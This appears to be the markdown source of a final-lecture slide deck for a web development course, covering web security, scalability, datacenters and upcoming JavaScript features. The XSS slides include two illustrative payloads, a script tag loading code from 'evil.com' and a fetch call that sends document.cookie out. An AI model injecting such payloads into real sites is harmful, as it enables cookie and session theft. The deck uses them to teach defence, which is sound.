

layout: true
class: center, middle
name: pic
background-size: contain

---

layout: true
class: center, top
name: fragment

.title[{{name}}]

---
layout: true
class: center, middle
name: base

.title[{{name}}]

---
name: Wrap Up


---
name: Today

* wrapup
* security
* scalability
* projects!

???


---
name:  Security


* problems: view and modify
  * information disclosure
  * perform operations on data as another user

???


---
name: Hard Problem

* many attack vectors
  * server side
  * database
  * frontend hacks
* complex systems hard to analyze
* weakest link

???


---
name:


<iframe src="//giphy.com/embed/C1nEwzSrlVW80" width="680" height="448" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

???


---
name: Modes

* connection between browser and web server
  * password / existing session
* attack server
  * os or inject code
* attack browser
  * inject code into page
* phish the user


???


---
name:  Protections

* browser is sandboxed
  * can't access filesystem directly
* cryptography
* frameworks
  * help with common problems

???


---
name: Browser Problems

* content can come from different sources
  * iframes, tabs, ads
* ads:
  * content from elsewhere
  * can inject code into page
  * `document.parent.frames[0].forms[0];`

???
* Cross-Site Request Forgery (CSRF)


---
name:  Same-Origin Policy

* restrict frames
* must come from same origin
  * protocol, domain, port
* DOM access
* cookies
* AJAX requests

???


---
name: CORS

* same-origin too strict sometimes
* cross origin resource sharing
* in response HEADERS from server:
  * `Access-Control-Allow-Origin: http://foo.com`
  * `Access-Control-Allow-Methods: PUT, DELETE`

???


---
name: Network Attacks

* mitm: man in the middle
  * viewing unencrypted traffic
  * modifying traffic

???
* non https in cafe


---
name: Encryption

* public-key encryption:
  * each party (user/server) has two encryption keys, one public, one secret.
  * needs secret handshake to exchange public keys via known symmetric key
  * symmetric key: certificate signed by trusted authority
  * browser trusts multiple root certificate authorities
  * a domain having a certificate: https


???


---
name: https

{:  .white-background}


???


---
name:  DDOS

* distributed denial of service
  * overloading databases/servers
  * botnets

???
* github ddos


---
name: Session Attacks

* stealing session id / token
* JWTs help
* add https and session timeouts


???
* with jwt would need unlimited access to computer really if using https


---
name: Bad Input

* input validation
* executing user input
* trusting client

???
* purchase price example
* code execution on server example
* attacks on server, what about user to user


---
name: XSS

* Cross Site Scripting Attack
  * malicious user inputs content into site
  * display user input: `<script src="http://www.evil.com/p0wn.js">`
* protections:
  * vet input && output
  * react and express do a lot of this for us
  * dangerouslySetHTML...

???
* users vulnerable to other users input
* was ok because markdown parsed out stuff too


---
name: stored vs reflected

* stored:
  * malicious code stored in db from user input
* reflected:
  * fake version of page gets user to submit input to real version
  * input is reflected back:
    * username is incorrect
    * where username is `<script>fetch(..., document.cookie)</script>`


???
* again vetting input and output
* react automatically sanitizes everything (encodes all special characters etc)


---
name: SQL code injection


{:  .white-background}


???
* using ORM or ODM (object data mapping like mongoose)


---
name: PHISHING

* fake sites that look real
  * similar names
  * unicode domainnames
  * picture in picture
* social engineering


???
* human is the weakest link


---
name: Some Phishing Protections

* show user generated content
* extended validation https certificates
  * expensive and hard to get
* two factor auth

???


---
name: Scalability

* scale up
* scale out


???
* up is bigger machines
* out is more machines
* cpu, memory, network


---
name: Scale Out

{:  .white-background}


???


---
name: Scale Out Challenges

* load balancing across many instances:
  * data access
  * concurrency
  * state

???
* websockets have trouble scaling out but everybody wants to use them
* stateless is better, cache session data
* auth token needs validation - cache user information


---
name: Scale Out Storage

* single database not enough
* sharding
  * hash keys across shards

???
* draw shards
* caches don't speed up writes
* row locking
* shard clusters with write master


---
name: Scale Out Storage

* fb initially one db per school
* fb in 2009:
  * 1,800 mysql servers
  * 2000 memcached servers
  * 10k servers total is estimate)

???


---
name: Virtualization


{:  .white-background}


???
* docker etc


---
name: CDN

* Content Distribution Network
  * read only cache of static files
  * surge/ghpages automatically use CDN


???


---
name: Datacenters


<iframe src="//giphy.com/embed/l39727g11ikHsDzKE" width="780" height="568" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>
<br>


???
* where are these servers?


---
name: Datacenters

* 15-40 megawatts power
* 50,000-200,000 servers
* 24/7 staff: 15
* $1B construction

???
* hardware failures alone...


---
name: Considerations

* power
* backup
* network
* cooling
* failures

???


---
name:


{:  .white-background}


???


---
name:


{:  .white-background}


???


---
name:


{:  .white-background}


???


---
name:


{:  .white-background}


???


---
name:


{:  .white-background}

???


---
name:


{:  .white-background}

???


---
name: Problems Of Webdev

* Software engineering problems programming at scale
  * javascript lack of strong type system
  * browsers
  * interpreted performance

???
*


---
name:  The future!

* language and framework improvements
* es7 (not much there)
* es8?!

???
* in the stanford webdev class currently being taught react is "the future"


---
name: The future: async and await

```javascript
export default async function getLikes () {
  const users = await getUsers();
  const filtered = await filterUsersWithFriends(users);
  return getUsersLikes(filtered);
}
```

* syntax on top of promises
* await casts to promise
* returns promises
* errors -> reject
* return -> resolve
* available now in babel `stage-3`

???
* is like wrapping a promise in a generator
* returning intermediate values
* https://zeit.co/blog/async-and-await#the-future:-async-and-await
* http://bevacqua.github.io/promisees/


---
name:  The future: Observables

* asynch methods that can be subscribed to
  * function which returns an observable stream of events
  * can map / filter over streams of events
  * producer -> consumer
  * es8?

???
* https://www.youtube.com/watch?v=lil4YCCXRYc


---
name: GraphQL

* Try this out at home!

???
* we talked about it, but try it now you have all the tools
* express js with mongo + graphql!


---
name: FP

* functional programming paradigms
* scalability and parallelism
* testability

???
* immutability
* vector programming
* mocha with chai for testing


---
name: Web Sockets

* better security
* better standards

???
* things like reconnections and CRUD


---
name: Web Components

* self designed "tags"
* reusable containers (like react)
* but builtin to browsers

???


---
name: Big Data Cloud

* more scalable architectures in the "clooouudd"
* cloud functions:
  * Azure Functions
  * AWS Lambda
  * Google Cloud Functions


???
*  functions in the cloud


---
name: Instant Apps

* Android Instant Apps
* iOS App Thinning
* apps that stream native to mobile
* react-native though...


???


---
name: ?


???
* you invent the future!


---
name: Full Stack

* lots to it
  * make pretty things
  * architect web services
  * storage

???
* in practice devs focus on particular parts of the stack
* we covered a lot and you all rock


---
name: Moving Fast

* new developments all the time
* stacks and tools evolving

{: .medium .white-background}


???
* hopefully this class has given you navigation abilities in the confusing world of webdev


---
name: Last Words

<iframe src="//giphy.com/embed/101JR1ATcGSxOM" width="580" height="384" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

???
* thank you
* learned from you
* hope you will keep making stuff
* pass on your knowledge


---
name: Last Words

* Related Courses:
  * cs65: Mobile
  * cs74: ML
  * cs60: Networks
* Cool Courses:
  * cs89: Computational Fabrication
  * cs76: AI

???


---
name: Last Words

* DALI!
  * Applications open (9/9)
* My Potential Future Courses:
  * Cloud Computing Course (big data/scalability)
  * Game Dev (game from ground up)
* Keep building!

???
* future courses pending
* course assesments and carson 61 survey


---
name: Project Demos Tomorrow

* let make them awesome!

???
